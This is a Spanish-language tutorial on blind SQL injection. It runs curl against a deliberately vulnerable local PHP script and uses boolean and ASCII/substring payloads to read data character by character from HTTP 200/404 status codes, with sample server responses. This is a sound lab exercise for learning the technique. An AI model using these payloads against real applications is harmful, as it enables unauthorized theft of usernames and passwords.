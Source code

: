 # Uso de Curl para Inyecciones SQL a Ciegas

## Introducción

Este documento describe cómo utilizar `curl` para realizar [SQLi](SQLi.md) a ciegas, basándonos en los códigos de estado HTTP devueltos por el servidor. En un entorno real, este tipo de pruebas se llevarían a cabo sobre aplicaciones web vulnerables que no muestran directamente los resultados de las consultas [SQL](SQL.md), pero cuyos códigos de respuesta pueden revelar información útil.

El entorno de pruebas está basado en un servidor local con un script PHP vulnerable llamado `searchUsers.php`. Su funcionamiento es el siguiente:

1. **Conexión a la base de datos**: Se conecta a un servidor MySQL con las credenciales predefinidas.
2. **Recepción de parámetros**: Obtiene el valor de `id` a través de una solicitud GET.
3. **Falta de validación adecuada**: Usa `mysqli_real_escape_string` para sanitizar la entrada, pero **omite las comillas en la consulta SQL**, lo que permite inyecciones sin necesidad de cerrar la cadena con `'`.
4. **Consulta SQL vulnerable**: Ejecuta la consulta `SELECT username FROM users WHERE id = $id`, lo que permite inyectar condiciones SQL adicionales.
5. **Código de respuesta basado en los resultados**:
   - Si se encuentra un usuario con el `id` especificado, devuelve `HTTP/1.1 200 OK`.
   - Si no se encuentra un usuario, devuelve `HTTP/1.1 404 Not Found`.

Este comportamiento nos permite inferir información sobre la base de datos basándonos en los códigos de estado obtenidos tras enviar distintas consultas.

---

Para recoger información con **Curl**, podemos usar `-G --data-urlencode`, lo que nos permite realizar peticiones GET de manera más cómoda y organizada. En este caso, queremos emplearlo para realizar una inyección SQL a ciegas y observar los códigos de estado HTTP en las respuestas.

## Envío de Peticiones con Curl

El siguiente comando nos permite hacer una petición con un parámetro `id`:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=1"
```

Podemos modificar el valor de `id=N` para obtener diferentes respuestas y analizar el comportamiento de la aplicación.

Por ejemplo, si enviamos una consulta con una condición siempre verdadera:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or 1=1"
```

Obtendremos un *código de estado 200*, porque `1=1` es una condición siempre verdadera y la consulta devuelve una respuesta válida, incluso si el identificador `id=9` no existe.

### Ejemplo de Respuestas del Servidor

#### Petición con un ID válido:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=1'
```
**Respuesta:**
```
HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 19:06:14 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

#### Petición con un ID inexistente:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=5'
```
**Respuesta:**
```
HTTP/1.1 404 Not Found
Date: Sat, 29 Mar 2025 19:06:19 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

## Inyección SQL Basada en Comparación ASCII

Podemos utilizar funciones como `ascii()` y `substring()` para extraer información carácter por carácter. Por ejemplo, si queremos verificar si el primer carácter del nombre de usuario (`username`) es 'a' (`97` en ASCII), enviamos:

```bash
curl -s -I -X GET 'http://localhost/searchUsers.php' -G --data-urlencode 'id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)'
```

Si la respuesta es `200 OK`, significa que la condición es verdadera, lo que nos indica que el `username` en la posición `1,1` es 'a'.

## Automatización con Python

Este método nos permite desarrollar un **script en [Python](./Python)** que realice múltiples peticiones, probando diferentes valores y analizando las respuestas. De esta manera, podemos extraer datos como nombres de usuario o contraseñas de la base de datos basándonos en los códigos de respuesta HTTP.

---

Este procedimiento es clave para realizar una extracción eficiente en ataques **SQLi a ciegas**, permitiéndonos descubrir información sin ver directamente el resultado de las consultas. 
